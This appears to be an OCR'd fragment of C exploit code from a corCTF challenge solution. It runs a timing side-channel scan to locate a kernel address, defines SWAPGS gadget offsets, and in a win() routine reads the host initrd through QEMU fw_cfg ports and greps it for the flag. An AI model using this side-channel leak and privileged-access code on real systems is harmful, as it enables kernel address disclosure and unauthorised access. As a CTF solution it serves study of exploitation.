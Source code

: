 ``` c

	uint64_t *data = malloc(arr_size * sizeof(uint64_t));
	memset(data, 0, arr_size * sizeof(uint64_t));

	uint64_t min = ~0, addr = ~0;

	for (int i = 0; i < ITERATIONS + DUMMY_ITERATIONS; i++)
	{
		for (uint64_t idx = 0; idx < arr_size; idx++)
		{
			uint64_t test = scan_start + idx * step_size;
			syscall(104);
			uint64_t time = sidechannel(test);
			if (i >= DUMMY_ITERATIONS)
				data[idx] += time;
		}
	}

	for (int i = 0; i < arr_size; i++)
	{
		data[i] /= ITERATIONS;
		if (data[i] < min)
		{
			min = data[i];
			addr = scan_start + i * step_size;
		}
	}

	free(data);

	return addr;
}

#define FW_CFG_PORT_SEL     0x510
#define FW_CFG_PORT_DATA    0x511
#define FW_CFG_INITRD_DATA  0x12

#define SWAPGS_SYSRET		0x1ba
#define SWAPGS_AND_RESTORE	0xf42

#define CEA					0x7dc13f48

#define INITRD_SIZE        1500000
char* initrd;

void sigfpe_handler(int sig, siginfo_t *si, void *context) {
    ucontext_t *uc = (ucontext_t *)context;

    uc->uc_mcontext.gregs[REG_RIP] += 3;
}

ul saved_rbp;

void win() {
	outw(FW_CFG_INITRD_DATA, FW_CFG_PORT_SEL);

	for (int i=0; i<INITRD_SIZE; i++)
		initrd[i] = inb(FW_CFG_PORT_DATA);

	int fd = open("/tmp/initrd.gz", O_RDWR);
	write(fd, initrd, INITRD_SIZE);
	system("gzip -d /tmp/initrd.gz && cat /tmp/initrd | grep corctf{");

```